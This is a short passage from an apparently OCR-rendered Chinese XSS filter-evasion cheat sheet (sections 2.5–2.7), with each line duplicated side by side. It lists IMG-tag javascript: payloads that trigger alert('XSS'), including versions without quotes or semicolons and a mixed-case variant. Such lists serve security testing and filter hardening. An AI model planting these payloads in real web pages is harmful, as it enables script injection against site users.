### 2.5.  通过JavaScript命令实现的图片XSS	### 2.5.  通过JavaScript命令实现的图片XSS


图片注入使用JavaScript命令实现（IE7.0 不支持在图片上下文中使用JavaScript 命令，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理）：	图片注入使用JavaScript命令实现（IE7.0 不支持在图片上下文中使用JavaScript 命令，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理）：


> <IMG SRC=”javascript:alert(‘XSS’);”>	json
<IMG SRC=”javascript:alert(‘XSS’);”>



### 2.6.  无分号无引号	### 2.6.  无分号无引号


> <IMG SRC=javascript:alert(‘XSS’)>	json
<IMG SRC=javascript:alert(‘XSS’)>





### 2.7.  不区分大小写的XSS攻击向量	### 2.7.  不区分大小写的XSS攻击向量


> <IMG SRC=JaVaScRiPt:alert(‘XSS’)>	json
<IMG SRC=JaVaScRiPt:alert(‘XSS’)>
